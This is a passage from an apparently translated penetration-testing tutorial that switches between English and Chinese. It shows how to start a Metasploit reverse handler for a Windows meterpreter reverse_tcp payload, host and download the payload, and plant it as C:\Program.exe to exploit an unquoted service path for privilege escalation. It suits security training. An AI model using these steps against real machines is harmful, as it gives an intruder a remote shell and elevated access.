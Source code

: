 3.  Start a reverse handler on your Kali machine using the following commands:

    ```
          use exploit/multi/handler
          set payload windows/meterpreter/reverse_tcp
          set lhost x.x.x.x
          set lport xxx
          exploit

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_09_012.jpg)

4.  现在，让我们在 Windows 系统上获取此文件。由于我们关注的是权限提升，我们只需将其托管在 web 服务器上，然后下载到 Windows 计算机上即可。
5.  Once the file is downloaded, we find a way to put it in the `C` drive so that the path resembles `C:\Program.exe`. This is only possible if the permissions are set incorrectly, or a misconfigured FTP setting points the path to the `C` drive, or any misconfiguration that allows us to paste our code on the path:

    ![How to do it...](img/image_09_013.jpg)
